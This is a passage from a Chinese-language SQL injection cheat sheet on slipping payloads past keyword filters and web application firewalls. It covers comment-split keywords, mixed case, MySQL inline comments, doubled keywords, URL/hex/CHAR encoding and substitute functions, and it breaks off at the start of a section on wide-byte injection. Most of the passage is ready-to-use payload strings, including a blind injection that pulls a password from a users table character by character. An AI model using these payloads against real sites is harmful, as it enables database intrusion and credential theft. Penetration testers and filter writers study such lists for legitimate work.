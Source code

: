 ### （1）使用注释符绕过：

　　常用注释符：

//，-- , /**/, #, --+, -- -, ;,%00,--a

　　用法：

U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user

### （2）使用大小写绕过：

id=-1'UnIoN/**/SeLeCT

### （3）内联注释绕过：

id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#

### （4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：

id=-1'UNIunionONSeLselectECT1,2,3–-

## 10.通用绕过（编码）：

　　如URLEncode编码，ASCII,HEX,unicode编码绕过：

or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。

## 11.等价函数绕过：

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1

## 12.宽字节注入：

　　过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。

　　在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：
